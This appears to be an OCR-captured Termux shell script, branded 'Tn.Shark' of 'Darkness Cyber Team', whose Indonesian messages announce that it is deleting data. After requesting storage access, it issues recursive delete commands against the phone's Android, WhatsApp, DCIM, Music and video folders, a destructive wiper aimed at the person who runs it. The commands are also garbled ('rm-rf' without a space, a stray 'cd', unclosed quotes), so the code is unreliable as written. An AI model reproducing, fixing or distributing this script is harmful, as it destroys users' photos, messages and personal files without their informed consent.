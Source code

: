 


clear
figlet -f slant "Tn.Shark"
echo
   echo "AUTHOR:TN.SHARK"
   echo "TEAM  :DARKNESS CYBER TEAM
   echo "PESAN :GUNAKAN DENGAN BIJAK
sleep 2
echo
    echo "SEDANG MENGHAPUS DATA TUNGGU SEBENTAR"
 termux-setup-storage
sleep 1
     rm-rf cd /sdcard/Android
     rm-rf cd /sdcard/WhatsApp
     rm-rf cd /sdcard/DCIM
     rm-rf cd /sdcard/Music
     rm-rf cd /sdcard/Vidio
echo "TUNGGU 5 DETIK"
  sleep 5
echo "MENGHAPUS SELESAI"
